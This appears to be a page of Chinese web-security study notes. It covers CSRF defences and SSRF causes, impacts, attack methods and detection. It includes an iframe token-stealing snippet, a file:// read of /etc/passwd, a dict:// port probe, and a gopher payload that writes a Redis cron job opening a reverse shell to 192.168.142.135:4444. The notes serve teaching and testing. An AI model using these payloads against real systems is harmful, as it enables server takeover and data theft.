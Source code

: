 **1.6防御措施**  
```
1、使用Referer进行一个简单效验（但是Referer可以被修改）
2、使用token验证（不是100%安全）
<iframe src="../csrf" onload=alert(frames[0].document.getElementsByName('user token'[0].value)>
3、敏感接口调用的二次验证：验证码、短信、扫码、人脸识别等
4、不好奇、不乱点（使用者角度）
```  
  
SSRF     
服务端请求伪造  
  
**2.1发生方式**  
```
是一种由攻击者构造形成由服务端发起的请求的一个安全漏洞（只要是一个网页或者服务器的代码加载了其他地址的内容就可能会出现ssrf漏洞）
```  
  
**2.2典型案例**  
```
1、社会化分享功能
2、转码服务（电脑网页转手机网页）
3、在线翻译（整个网站的翻译）
4、在线网站的图片加载和下载功能
5、图片、文章的收藏功能
6、网站采集、网站抓取的功能
```  
  
**2.3漏洞危害**  
```
1、扫描资产
2、获取敏感信息
3、攻击内网服务器（绕过防火墙）
4、访问大文件，造成溢出
5、通过Redis写入WebShell或者建立反弹连接
```  
  
**2.4攻击方式**  
```
1、PHP常见的引发SSRF漏洞的函数：
curl_exec()：执行curl会话
file_get_contents()：将整个文件读入一个 字符串
fsockopen()：打开一个网络连接或者一个Unix套接字
2、CURL其他协议
file协议：curl -v 'file:///etc/passeword' 查看文件
dict：http://localhost/ssrf/ssrf1.php?url=dict://127.0.0.1:3306 探测端口
gopher：curl -v
'gopher://127.0.0.1:6379/ *3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$57%0d%0a%0a%0a%0a*/1 **** bash -i>&/dev/tcp/192.168.142.135/4444
0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'  反弹shell
```  
  
**2.5检测思路**  
```
1、爬取地址，然后查看是否请求了其他资源
2、使用Google语法 inurl 搜索关键字：share、wpa、url、link、src、source、target、u3g、display、soruceURL、imageURL、domain
3、github上搜SSRF-Testing（工具）
```  
  